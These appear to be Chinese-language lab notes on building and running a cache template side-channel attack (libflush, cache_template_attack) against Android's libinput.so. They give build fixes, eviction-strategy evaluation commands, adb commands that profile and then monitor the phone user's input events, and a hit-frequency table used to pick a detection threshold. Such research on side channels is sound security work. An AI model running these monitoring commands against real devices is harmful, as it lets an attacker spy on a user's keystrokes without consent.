 # 一些操作
向`/opt/android/ndk/toolchains/arm-linux-androideabi-4.9/prebuilt/linux-x86_64/lib/gcc/arm-linux-androideabi/4.9.x/include`文件夹中移动了`/libflush/libflush/armv7`文件夹以解决
```bash
 [CC] cache_template_attack/calibrate.c
cache_template_attack/calibrate.c:5:31: fatal error: libflush/libflush.h: No such file or directory
 #include <libflush/libflush.h>
                               ^
compilation terminated.
```
问题

在编译`cache_template_attack`的时候，删除上面添加的`.so.*`动态链接库，可以获得加入静态库可以直接在手机中执行的程序版本。

在编译libflush的时候在命令行中添加`DESTDIR`参数来安装库到制定的文件夹
```sh
make DESTDIR=/opt/android/ndk/platforms/android-23/arch-arm/ install
```

通过`cat /system/build.prop | grep product`来获得系统芯片信息。


```sh
eviction_strategy_evaluator -c conf.yml -x cancro.yml run_strategies -e 30 -a 10 -d 10 -n 10000
```

run_stategies时不用连接手机
命令为
```sh
eviction_strategy_evaluator -c conf.yml -x cancro.yml evaluate_strategies /home/larry/Documents/cancro -t 95
```


获得数据的命令行为
```sh
adb shell /data/local/tmp/input-simulator -r -1 -d 1 s &

adb shell /data/local/tmp/cache_template_attack -c 0 -r b6b19000-b6b33000 -o 000000000 -f 1 /system/lib/libinput.so -l /data/local/tmp/log/s.log

adb shell kill 'adb shell ps | grep input-simulator | grep input-simulator | awk '{print $2}'| head -1'
```
监测用户输入数据的命令为

```sh
adb shell /data/local/tmp/cache_template_attack -s -c 0 -r b6b19000-b6b33000 -o 00006480 -f 1 /system/lib/libinput.so -l /data/local/tmp/log/test.log
```


从Hits频率分布结果
```
10     0.641318
11     0.662311
12     0.682751
13     0.702702
14     0.722265
15     0.741618
16     0.760365
17     0.778456
18     0.795565
19     0.811666
20     0.826513
21     0.840285
22     0.852823
23     0.864393
24     0.874818
25     0.884254
26     0.892739
27     0.900445
28     0.907511
29     0.914031
```
可以看出大约80%的Hits结果分布在[0,20]的范围内，90%分布在[0,30]范围内，所以可选择将20或者30最为一个阈值对结果进行分析

